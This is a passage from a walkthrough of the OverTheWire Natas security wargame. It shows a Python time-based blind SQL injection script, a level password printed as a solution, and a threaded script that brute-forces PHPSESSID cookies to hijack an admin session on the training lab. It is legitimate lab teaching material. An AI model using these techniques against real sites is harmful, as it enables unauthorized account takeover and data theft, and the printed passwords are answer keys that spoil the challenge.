 ```python
            time_get_page({
                "username": sql_query.format("".join([password, char, "%"])),
                "debug": "true"
            }): char
            for char in possible_chars
        }
        longest_time = max(password_times)
        password = "".join([password, password_times[longest_time]])
        logging.info("password: %s", password)


def main():
    print get_password()


if __name__ == "__main__":
    main()
```

The password is:

`xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP`

## 19

In this level, we must supply admin credentials to be shown the password
for the next level. Looking through the source code, we see that we can bypass
supplying admin credentials if we can trick the server into thinking we have
already logged in by setting the `PHPSESSID` cookie to the session id of an
admin account. We don't know the admin session number, but we can brute force
it by trying out session numbers. A comment in the code says that there are
only a 640 possible sessions.

```python
# -*- coding: utf-8 -*-

import logging
import sys

import requests
import concurrent.futures


logging.basicConfig(level=logging.INFO, stream=sys.stderr)
logger = logging.getLogger(__name__)
# Silence noisy urllib3 debug logs
logging.getLogger("urllib3").setLevel(logging.CRITICAL)


def get_page_text(session_num):
    logger.debug(session_num)
    r = requests.get(
        "http://natas18.natas.labs.overthewire.org",
        auth=("natas18", "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP"),
        cookies={"PHPSESSID": str(session_num)})
    if "You are an admin." in r.text:
        logger.info("Admin session: %d", session_num)
        print r.text


def main():
    with concurrent.futures.ThreadPoolExecutor(max_workers=30) as executor:
        executor.map(get_page_text, range(640))

```

[^1]: Hacking into systems without explicit permission is illegal.